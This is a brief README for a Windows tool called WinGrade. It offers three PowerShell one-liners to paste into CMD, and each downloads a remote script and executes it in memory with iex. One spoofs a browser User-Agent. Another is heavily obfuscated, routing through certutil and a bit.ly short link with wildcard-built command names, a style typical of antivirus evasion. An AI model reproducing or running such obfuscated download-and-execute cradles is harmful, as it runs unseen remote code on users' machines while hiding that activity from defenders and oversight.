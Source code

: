 # WinGrade

You can execute it in every Windows Operating System from Windows 7 - 10.

You don't have to Download the Program directly at github.


Just execute [CMD]:
```
powershell "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')"
```
or
```
powershell "$down=New-Object Net.WebClient;$down.Headers['User-Agent']='Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/525.19 (KHTML, like Gecko) Chrome/1.0.154.53 Safari/525.19';$down.DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')|iex"
```
or

```
powershell "iex(((C:\Windows\System32\certutil -ping https://bit.ly/2tZuas2|&(GV *ecu*t -ValueOn).Inv
okeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-
Ob*')-Skip 2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.
Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-SkipLast 1)-Join'`r`n'))"
```

In the Windows Command Prompt.


This Script is still in the early Alpha release!!! And has some bugs

